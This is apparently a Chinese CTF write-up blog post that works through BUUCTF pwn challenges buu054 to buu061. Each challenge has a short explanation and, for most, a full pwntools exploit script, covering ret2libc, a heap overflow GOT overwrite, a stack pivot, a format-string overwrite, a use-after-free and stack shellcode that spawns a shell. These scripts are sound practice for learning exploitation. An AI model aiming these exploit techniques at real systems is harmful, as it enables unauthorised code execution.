









buu054-jarvisoj_level1
又是那个jarvisoj特有的“肠梗阻”问题，远程的消息不发点东西过去它是不会过来的，这题本来是在栈中写shellcode然后返回到栈上执行，但是也可以用ret2Libc。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| from pwn import *
from LibcSearcher import *
context.log_level='debug'
io = remote('node4.buuoj.cn', 26705)
elf = ELF('./pwn')
io.sendline(cyclic(0x88+4) + p32(elf.plt['write']) + p32(elf.symbols['main']) + p32(1) + p32(elf.got['printf']) + p32(4))
printf = u32(io.recv(4))
libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
print(hex(base))
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
io.sendline(cyclic(0x88+4) + p32(sys) + p32(0xdeadbeef) + p32(binsh))
io.interactive()
|
buu055-babyfengshui_33c3_2016
一道考察堆排布的题目，一共可以添加最多50个用户，每一个用户的信息用两个chunk来保存。第一个chunk保存description，大小可以自由选择，第二个chunk保存第一个chunk的地址加用户名，大小固定为0x80（可写大小）。

需要重点关注一下选项0添加用户中用于读取姓名的函数中的一个检查。

这个地方检查的是两个堆地址的大小关系。那这个检查到底检查的是什么呢？
ptr存放50个user_info指针，那么&ptr+index应该就是要写入用户名的user_info的地址，查阅汇编代码发现后面的name[120]不明所以，故调试才是最好的理解方式。调试发现，这里实际上检查的是：一个user_info中desc的输入长度是否超限。它的比较方式是：首先输入desc的长度（这里实际上是重复输入，前面已经输入过一次长度，desc的chunk已经分配），然后程序比较"desc+长度"这个地址是否超过了user_info的地址。由于desc先于user_info分配，因此这样检查。如分配的desc可写头部地址为0x8049208，可写大小为0x80，user_info的可写头部地址为0x8049298，在写入desc的时候输入大小为0x40，那么这个检查比较的是0x8049208+0x40和0x804929c（user_info的size）的大小。
如此看来，绕过这个检查的思路就很清晰了。我们想办法让这两个chunk分配的距离远一点，中间还有其他的chunk，而且desc分配在user_info的低地址位置。这样的话我们就可以通过写入desc来覆盖某些chunk。
如下图就是一个简洁的利用思路。

通过堆溢出将user_info #3中的desc指针替换成.got表地址，获取到free函数地址后计算system地址，再写回到got表中，调用free函数即可执行system(‘/bin/sh’)
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
| from pwn import *
from LibcSearcher import *
context.log_level='debug'
io = remote('node4.buuoj.cn', 29858)
elf = ELF('./pwn')
def add(size, desclen, desc, name):
io.sendlineafter(b'Action: ', b'0')
io.sendlineafter(b'size of description: ', str(size).encode())
io.sendlineafter(b'name: ', name)
io.sendlineafter(b'text length: ', str(desclen).encode())
io.sendlineafter(b'text: ', desc)
def delete(index):
io.sendlineafter(b'Action: ', b'1')
io.sendlineafter(b'index: ', str(index).encode())
def show(index):
io.sendlineafter(b'Action: ', b'2')
io.sendlineafter(b'index: ', str(index).encode())
def update(index, desclen, desc):
io.sendlineafter(b'Action: ', b'3')
io.sendlineafter(b'index: ', str(index).encode())
io.sendlineafter(b'text length: ', str(desclen).encode())
io.sendafter(b'text: ', desc)
add(0x20, 0x20, b'/bin/sh', b'colin')
add(0x20, 0x20, b'colin', b'colin')
add(0x20, 0x20, b'colin', b'colin')
delete(1)
payload = cyclic(0x80)
payload += p32(0)
payload += p32(0x29)
payload += b'\x00' * 0x20
payload += p32(0)
payload += p32(0x89)
payload += p32(elf.got['free'])
add(0x80, 0x100, payload, b'colin')
show(2)
io.recvuntil(b'description: ')
free = u32(io.recv(4))
print(hex(free))
libc = LibcSearcher('free', free)
base = free - libc.dump('free')
sys = base + libc.dump('system')
update(2, 4, p32(sys))
delete(0)
io.interactive()
|
buu056-ciscn_2019_s_4
这题的vuln函数里面有两个输入，第一个输入我们通过printf套出来ebp的地址，可以计算得到我们输入的字符串的地址，之后第二个输入将ebp修改到字符串里面，返回到一个函数内部，在没有push ebp的前提下，leave指令会首先进行mov esp, ebp操作，将esp强制上抬到我们的字符串中间，将system地址写到字符串中即可getshell。注意字符串’/bin/sh’要写到system地址高地址处，防止system函数内部覆盖字符串。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| from pwn import *
context.log_level='debug'
io = remote('node4.buuoj.cn', 28199)
elf = ELF('./pwn')
io.sendline(cyclic(40-1))
io.recvuntil('Hello, ')
io.recv(40)
ebp = u32(io.recv(4))
print(hex(ebp))
buf_addr = ebp - 0x38
payload = p32(elf.plt['system'])
payload += p32(elf.symbols['main'])
payload += p32(buf_addr + 0xC)
payload += b'/bin/sh\x00'
payload += cyclic(0x14)
payload += p32(buf_addr - 4)
payload += p32(0x8048562)
io.send(payload)
io.interactive()
|
buu057-hitcontraining_magicheap
和第39题完全相同，除了magic和heaparray的地址少了0x20。略过。
buu058-axb_2019_fmt32
格式化字符串题。首先通过调试找到格式化字符串的偏移：

使用格式化字符串泄露got表地址，然后使用fmtstr_payload函数构造payload，将printf函数的got表地址改成system。（下面的代码有一定概率通不过，不知道是什么原因）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| from pwn import *
from LibcSearcher import *
context.log_level='debug'
io = remote('node4.buuoj.cn', 29861)
elf = ELF('./pwn')
io.sendlineafter(b'Please tell me:', b'a%9$s' + p32(elf.got['alarm']))
io.recvuntil(b'Repeater:a')
alarm = u32(io.recv(4))
print(hex(alarm))
libc = LibcSearcher('alarm', alarm)
base = alarm - libc.dump('alarm')
print(hex(base))
sys = base + libc.dump('system')
print(hex(sys))
payload = b'|| deadbeef||'
payload += fmtstr_payload(11, {elf.got['printf']: sys}, numbwritten=22)
print(payload)
io.sendlineafter(b'Please tell me:', payload)
io.sendline(b'|| /bin/sh')
io.interactive()
|
buu059-ciscn_2019_n_3
经过对源程序的分析，可以得到本题中使用的数据结构如下：

records全局变量是chunk_info*的数组。其中可以存放整型或字符串。
在两个释放内存的函数中都没有将全局变量中的对应指针删除，可能会导致UAF。
由于打印内容使用的是chunk_info中的函数指针，因此修改这个函数指针可以有任意代码执行。
此处利用UAF修改函数指针，修改free函数指针到system，修改print函数指针为字符串’sh\x00\x00’，这样在删除的时候就可以执行"system(‘sh’)"。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
| from pwn import *
context.log_level='debug'
io = process('./pwn')
elf = ELF("./pwn")
def add(index, type, content, length=0):
io.sendlineafter(b'CNote > ', b'1')
io.sendlineafter(b'Index > ', str(index).encode())
io.sendlineafter(b'Type > ', str(type).encode())
if type == 2:
io.sendlineafter(b'Length > ', str(length).encode())
io.sendlineafter(b'Value > ', content)
def delete(index):
io.sendlineafter(b'CNote > ', b'2')
io.sendlineafter(b'Index > ', str(index).encode())
def dump(index):
io.sendlineafter(b'CNote > ', b'3')
io.sendlineafter(b'Index > ', str(index).encode())
add(0, 2, b'/bin/sh', 0x10)
add(1, 1, b'123456')
delete(0)
delete(1)
add(2, 2, b'sh\x00\x00' + p32(elf.plt['system']), 0xc)
delete(0)
io.interactive()
|
buu060-wustctf2020_closed
这道题实际上是要我们理解linux标准输入输出。开启一个终端之后，对于这个终端来说有标准输入（文件描述符为0）、标准输出（1）和标准错误输出（2）三个标准IO流。这三个流的文件描述符指向的是一个地方，也就是开启的控制台。理解这道题题解exec 1>&0的关键是将控制台程序本身看成是一个文件，这个文件可以通过我们的键盘输入内容，也可以进行输出，输出的内容可以被我们看见，但输出本身仍然在这个文件中。程序关闭了标准输出和标准错误输出，但是输入没有关闭，三个文件描述符原本指向的都是这个控制台程序，那么现在我们只需要让标准输入重新指向控制台就可以了，也就是指向标准输入指向的地方。
如下图所示，这个控制台程序是pycharm内部的控制台，其标准输入、输出、错误输出都指向/dev/pts/2。那么exec 1>&0实际上就等同于exec 1>/dev/pts/2。

我们首先使用exec 1>&0打开输出流，查看一下标准输入流指向的位置，发现是/dev/pts/2

因此，下面的输入也可以打开输出流：exec 1>/dev/pts/2（本地可以，远程不行因为没有file命令）

buu061-pwnable_start
这道题源程序非常简单，应该是用汇编写的，就两个函数。进行了两次系统调用，一次输出一次输入，栈可执行。
观察到输入的长度大于输出，可以通过返回到输出syscall上方的代码，跳过对输出长度mov dl, 14h的修改，而直接执行后面的mov bl,1; mov al,4，可以实现输出0x3C个字节的数据，以此来获取栈的地址。
打印出栈地址之后还可进行一次输出，可以将shellcode写入，然后执行shellcode即可。经过调试发现shellcode有44字节，写入shellcode之后正好就是返回地址的写入位置。但这里需要注意几点：
- 不能直接将返回地址写到shellcode之后。虽然这样能够成功返回到shellcode，但是由于shellcode中有很多push指令，而shellcode在返回地址的低地址处，会导致shellcode的后面一部分被覆盖，无法正常执行。
- 不能直接将shellcode写到返回地址后面，因为输入的长度最多只能为0x3C字节，在返回地址之后最多只能写入0xC个字节，长度不够。
因此考虑在返回地址之后单独写一个跳转的小gadget：sub esp, 0x100; jmp ecx。注意执行到这里时ecx的值和调用输入系统调用的ecx值相等，因此jmp ecx能够直接执行shellcode。而sub esp,0x100则是强制让栈下移，防止shellcode被覆盖。如此，返回地址就应该写sub esp,0x100的地址。

exp：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
| from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
io = process('./pwn')
payload = cyclic(20)
payload += p32(0x804808B)
io.sendafter(b'Let\'s start the CTF:', payload)
io.recvuntil(p32(0x804808b))
stack_addr = u32(io.recv(4))
payload = asm(shellcraft.sh())
payload += p32(stack_addr + 0x14)
payload += asm("sub esp, 0x100;"
"jmp ecx;")
io.send(payload)
io.interactive()
|